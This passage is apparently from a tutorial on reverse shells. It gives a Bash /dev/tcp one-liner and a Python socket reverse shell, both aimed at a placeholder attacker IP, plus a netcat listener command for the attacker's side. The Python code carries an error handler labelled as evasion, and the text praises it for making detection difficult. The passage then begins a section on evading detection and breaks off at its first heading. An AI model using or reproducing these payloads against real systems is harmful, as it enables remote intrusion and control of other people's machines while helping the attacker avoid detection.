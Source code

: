 ### Using Bash

```bash
bash -i >& /dev/tcp/attackerIP/port 0>&1
```

This single line of code represents the most basic form of a reverse shell. It uses Bash's special file path `/dev/tcp/` to redirect standard input, output, and error streams to a socket. The `-i` flag creates an interactive shell.

The advantage is that it uses Bash, which is installed by default on most Linux and Unix systems, so no additional tools are needed. However, not all Linux distributions support the `/dev/tcp/` feature, so caution is required.

On the attacker's side, run the listener as follows:

```bash
nc -lvp 4444
```

This uses the netcat tool to wait for incoming connections on port 4444. Once the connection is successful, you can access the shell of the target system.

### Using Python

```python
import socket, subprocess, os

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attackerIP", port))
    os.dup2(s.fileno(), 0)
    os.dup2(s.fileno(), 1)
    os.dup2(s.fileno(), 2)
    p = subprocess.call(["/bin/sh", "-i"])
except:
    # Quietly exit on failure (evasion)
    pass
```

Python provides powerful socket programming capabilities to implement reliable reverse shells. This code creates and connects a socket, then duplicates the standard streams to the socket so that shell command input and output are transmitted through the socket.

It works on any system with Python installed and uses error handling to quietly exit upon connection failure, making detection difficult. In Windows environments, `/bin/sh` can be replaced with `cmd.exe` or `powershell.exe`.

## Detection Evasion Techniques

Basic reverse shells can be easily detected by network monitoring tools. As security equipment has evolved, techniques to evade detection have also developed. Let's look at methods for more covert communication.

### Encrypted Communication
